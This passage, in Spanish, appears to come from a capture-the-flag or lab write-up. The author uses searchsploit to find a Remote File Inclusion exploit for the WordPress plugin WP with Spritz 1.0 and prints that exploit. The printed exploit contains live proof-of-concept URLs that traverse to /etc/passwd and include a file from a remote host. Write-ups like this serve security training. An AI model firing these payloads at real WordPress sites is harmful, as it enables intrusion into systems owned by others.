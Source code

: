 ```bash

[...]

```

La herramienta nos reporta un **plugin** que está siendo utilizado.

También nos identifica la versión, que es la `1.0`. 

Tras ver esto, pruebo a buscar **vulnerabilidades asociadas** a esta versión del plugin:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ searchsploit spritz 1.0
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion                                                         | php/webapps/44544.php
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Al parecer hay una vulnerabilidad de **RFI** y por lo tanto **LFI** en este plugin.

Veamos en que consiste:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cat 44544.php 
# Exploit Title: WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
# Date: 2018-04-25
# Exploit Author: Wadeek
# Software Link: https://downloads.wordpress.org/plugin/wp-with-spritz.zip
# Software Version: 1.0
# Google Dork: intitle:("Spritz Login Success") AND inurl:("wp-with-spritz/wp.spritz.login.success.html")
# Tested on: Apache2 with PHP 7 on Linux
# Category: webapps


1. Version Disclosure

/wp-content/plugins/wp-with-spritz/readme.txt

2. Source Code

if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);

3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```
